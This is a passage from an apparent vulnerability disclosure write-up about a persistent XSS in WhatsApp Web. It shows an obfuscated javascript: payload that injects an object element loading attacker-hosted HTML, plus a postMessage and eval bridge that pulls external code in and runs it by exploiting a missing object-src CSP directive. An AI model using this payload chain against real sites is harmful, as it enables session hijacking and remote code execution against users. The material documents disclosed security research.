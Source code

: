 You see that `object-src [missing]` down there? (😈)

This is what I am going to do. Using my `javascript:` trick, I am going to inject the following payload to my malicious message:

```javascript
var payload = `
  hard_expire_time.innerHTML +=
  '<object data="https://MY_MALICIOUS_DOMAIN/MY_PAYLOAD_IFRAME.html" />';
  onmessage=(e)=>{eval(JSON.parse(e.data))};
`;
payload = `javascript:"https://facebook.com";eval(atob("${btoa(payload)}"))`;
e.__x_body = e.__x_matchedText = payload;
```

And the content of `https://MY_MALICIOUS_DOMAIN/MY_PAYLOAD_IFRAME.html` would be:
```html
<html>
  <head></head>
  <body>
    <script>
      top.postMessage(
	     JSON.stringify(
		    "open('https://facebook.com');
        alert('external payload');"
	     ),
      "*");
    </script>
  </body>
</html>
```

*(This works for WhatsApp Web)*

See what I just did?
Since `object-src` directive is missing, it means I can use `object` to load an iframe(ish) to any origin of my choice. That way I'll be able to run any external code with no size limits and no problems! All that is left to do is to execute that code on `web.whatsapp.com` domain and not on my own iframe's domain, otherwise that'll be pretty useless.

To achieve that, I simply use the XSS to load the iframe and then listen to the messages that are posted by different windows. I then use the iframe to post a message to the top window with the content of the external code.

The top window, where the XSS was executed, receives the message from the iframe, parses the external payload provided by it and executes it in its context (`web.whatsapp.com`).

Win! External payload was successfully fetched and executed in the context of WhatsApp!

Oh, and that `hard_expire_time.innerHTML` trick? It was the shortest way I could think of at the moment to make the DOM load my Object element (`hard_expire_time` is an element in the DOM of the website).

### 5. From Persistent-XSS to Reading from the File System on Mac/Windows with a potential for RCE
